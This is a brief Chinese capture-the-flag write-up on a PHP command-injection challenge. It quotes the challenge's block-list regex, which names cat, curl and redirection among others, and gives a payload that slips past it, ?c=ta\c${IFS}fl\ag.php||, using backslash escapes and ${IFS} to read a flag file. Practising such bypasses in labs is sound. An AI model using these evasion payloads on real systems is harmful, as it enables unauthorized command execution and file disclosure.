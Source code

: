 分析

![image-20240120133631532](照片/image-20240120133631532.png)

过滤了

```
("/\;|cat|flag| |[0-9]|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</i"
```

这次过滤了尖括号，但$没有过滤，所以空格过滤可以用${IFS}

查看flag位置

![image-20240120133911489](照片/image-20240120133911489.png)

构建命令

```
?c=ta\c${IFS}fl\ag.php||
```

发现flag换位置了
